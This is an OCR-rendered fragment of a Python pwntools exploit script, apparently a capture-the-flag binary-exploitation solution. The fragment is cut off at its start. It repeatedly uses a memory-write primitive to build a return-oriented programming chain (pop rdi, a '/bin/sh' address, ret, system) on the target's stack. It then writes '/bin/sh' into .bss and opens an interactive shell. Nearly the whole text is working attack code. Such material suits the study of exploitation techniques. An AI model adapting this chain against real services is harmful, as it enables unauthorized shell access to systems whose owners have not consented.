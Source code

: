   ```
        checkOK()
    
    def checkOK():
        sleep(3)
        while True:
            sh.send('ok?\x00')
            sleep(0.5)
            data=sh.recv()
            if data.find('ok?')!=-1:
                break
    
    def setvalue(addr,data):
        for offset in [0,2,4,6]:
            set2location((addr+offset)&0xffff)
            param=(data>>(8*offset))&0xffff
            #gdb.attach(sh)
            #pause()
            if param==0:
                param=65536
            override(param)
            #gdb.attach(sh)
            #pause()
            log.info("  finished:"+str(offset//2+1))
    
    #setvalue(ret_stackaddr+16,system_addr)
    control=9
    setvalue(ret_stackaddr+32,work_addr)
    
    setvalue(ret_stackaddr,pop_rdi_ret)
    
    binsh_addr=pop_rdi_ret-0x893+0x201080
    
    setvalue(ret_stackaddr+8,binsh_addr)
    
    control=11
    setvalue(ret_stackaddr+16,ret)
    setvalue(ret_stackaddr+24,system_addr)
    
    if DEBUG==1:
        gdb.attach(sh)
        pause()
    
    context.log_level='debug'
    
    # push /bin/sh to .bss
    sh.sendline(' '*64+'/bin/sh\x00')
    sh.recv()
    
    sh.send('66666666\x00')
    
    sh.interactive()
    ```

    








